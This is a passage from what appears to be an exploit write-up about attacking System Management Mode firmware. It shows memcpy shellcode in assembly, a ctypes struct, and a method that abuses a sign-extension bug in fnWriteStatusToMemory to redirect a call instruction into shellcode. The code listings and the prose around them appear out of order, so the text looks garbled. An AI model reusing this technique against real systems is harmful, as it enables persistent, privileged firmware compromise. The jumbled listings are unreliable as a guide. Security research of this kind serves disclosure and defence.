 The function expects RCX to hold an address to a struct defined as:

```
0:  48 8b 01                mov    rax,QWORD PTR [rcx]
3:  48 8b 30                mov    rsi,QWORD PTR [rax]
6:  48 8b 78 08             mov    rdi,QWORD PTR [rax+0x8]
a:  8b 48 10                mov    ecx,DWORD PTR [rax+0x10]
d:  f3 a4                   rep movs BYTE PTR es:[rdi],BYTE PTR ds:[rsi]
f:  b0 01                   mov    al,0x1
11: c3                      ret
```

**_fnWriteStatusToMemory_** even with the existing changes, still writes bytes as wide, which means two bytes will get changed everytime a write occurs.

The instruction responsible for this in **_fnWriteStatusToMemory_**:

`movsx eax, al`

When a byte > 0x7F (let’s say 0xEA) is passed to **_fnWriteStatusToMemory_**, it writes `0xEA 0xFF` instead of `0xEA 0x00`.

This is because the instruction sign-extends the value in `al` to `EAX`. If `al` contains a value greater than 0x7F, then it is treated as a negative value when considered as a signed byte.

So while **_fnWriteStatusToMemory_** still writes wide-bytes, it’s the perfect piece to the puzzle :

```
class CopyMem(ctypes.Structure):
    _fields_ = [
        ("source", ctypes.c_void_p),  # void* source
        ("dest", ctypes.c_void_p),  # void* dest
        ("size", ctypes.c_uint32),  # unsigned int size
    ]
```

can now become:

```
E8 68 EF FF FF     call    fnWriteStatusToMemory
```

What’s at 0x4AA32138? Nothing important! (except a sweet ROP gadget, but since I don’t have the ability to debug in SMM this one is worthless).

```
E8 68 [EA FF] FF   call    near ptr unk_4AA32138
```

Plenty of room for the memcpy shellcode to go!

First I copy the shellcode to 0x4AA32138:

```
44 0F 6F 89 88 00 00 00                movq    mm1, qword ptr [rcx+88h]
F3 44 0F 6F 91 98 00 00 00             movdqu  xmm10, xmmword ptr [rcx+98h]
F3 44 0F 6F 99 A8 00 00 00             movdqu  xmm11, xmmword ptr [rcx+0A8h]
F3 44 0F 6F A1 B8 00 00 00             movdqu  xmm12, xmmword ptr [rcx+0B8h]
F3 44 0F 6F A9 C8 00 00 00             movdqu  xmm13, xmmword ptr [rcx+0C8h]
F3 44 0F 6F B1 D8 00 00 00             movdqu  xmm14, xmmword ptr [rcx+0D8h]
F3 44 0F 6F B9 E8 00 00 00             movdqu  xmm15, xmmword ptr [rcx+0E8h]
48 89 D0                               mov     rax, rdx
FF 61 48                               jmp     qword ptr [rcx+48h]
```

